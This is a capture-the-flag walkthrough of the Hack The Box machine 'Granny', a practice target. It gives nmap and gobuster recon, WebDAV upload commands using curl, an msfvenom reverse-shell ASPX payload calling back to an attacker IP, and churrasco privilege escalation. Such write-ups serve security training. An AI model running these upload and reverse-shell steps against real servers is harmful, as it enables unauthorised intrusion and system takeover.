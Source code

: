 
# Granny Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA granny 10.10.10.15``

80/tcp open  http    Microsoft IIS httpd 6.0

# ${{\color{purple}Initial Foothold}}\ $

``gobuster dir -u http://10.10.10.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20``

WebDAV and Microsoft-IIS/6.0 **:white_check_mark:**

Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK

### To get options supported by your server
* Output can be Allow: DELETE,MKCOL,PROPFIND,GET,HEAD,PROPPATCH,OPTIONS,MOVE,PUT,GET,HEAD **:white_check_mark:**
 
``curl -i -X OPTIONS http://example.com``

### To create folder

``curl -X MKCOL 'http://example.com/webdav/new_folder'``

### To delete folder

``curl -X DELETE 'http://example.com/webdav/new_folder'``

### To delete file

``curl -X DELETE 'http://example.com/webdav/somefolder/somefile.txt'``

### To upload file

``curl -T '/path/to/local/file.dat' 'http://example.com/webdav/somefolder/somename.dat'``

### Use davtest to test the webdav

``davtest -url http://10.10.10.15``

![granny1](https://user-images.githubusercontent.com/123066149/219883013-10a473c2-110d-4c67-9f59-c22f58492326.PNG)


# ${{\color{purple}Exploitation}}\ $ 

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f aspx -o exploit.aspx``

``curl -T '/home/kali/Documents/htb/granny/exploit.aspx' 'http://10.10.10.15/exploit.txt'``

![image](https://user-images.githubusercontent.com/123066149/219883097-39d9adad-1c89-4db5-a4d0-419d5c16b29e.png)

![image](https://user-images.githubusercontent.com/123066149/219883154-cb678071-5807-429e-8a9a-2a5114bd470c.png)

![image](https://user-images.githubusercontent.com/123066149/219883179-44b0e799-a345-4fdd-b73b-1c976d3ad637.png)


# ${{\color{purple}Privilege Escalation}}\ $

i used windows exploit suggester for linux :

### The database must be updated 

``python windows-exploit-suggester.py --update``

``python windows-exploit-suggester.py -i systeminfo.txt -d 2023-02-18-mssb.xls``

![image](https://user-images.githubusercontent.com/123066149/219883428-006639e7-a8bc-44ef-9ebe-b94d1193dcbf.png)

``python windows-exploit-suggester.py -i systeminfo.txt -d 2023-02-18-mssb.xls > vuln.txt``

![image](https://user-images.githubusercontent.com/123066149/219884565-c4650af3-3487-4a98-98e2-38f5390de595.png)

Finally the exploits of Windows-Exploit-Suggester, did not give me anything so I did a google search !

![image](https://user-images.githubusercontent.com/123066149/219884655-70e92357-11ac-4d58-a3ca-8e1be7f5c844.png)

![image](https://user-images.githubusercontent.com/123066149/219884682-5aa53156-701a-4e8c-b5bc-a53e56c7fce9.png)

![image](https://user-images.githubusercontent.com/123066149/219884698-20b0934e-37c0-4733-b84e-447b418dd4ce.png)

### I used the churrasco exploit from the jivoi repo :

![image](https://user-images.githubusercontent.com/123066149/219884822-e5772d5f-e936-4aec-a1da-449858645c7a.png)

![image](https://user-images.githubusercontent.com/123066149/219884875-ed7aae9b-29ae-41fa-a149-2db19a92fb39.png)

# ${{\color{purple}Points of Improvement}}\ $

* Don't forget to make an ``nmap script vuln``
* There was no powershell on the box so I used ``Windows-Exploit-Suggester-python3``
* Don't forget to use a good ``gobuster``
* Ftp and smb are good protocols to use on old machines without powershell
* For the priv esc you have to stay wide and not to search too precisely with a searchploit a google search is better !

![image](https://user-images.githubusercontent.com/123066149/219885105-b97268f4-97f0-4f5b-92bf-f7c9b6d88e52.png)




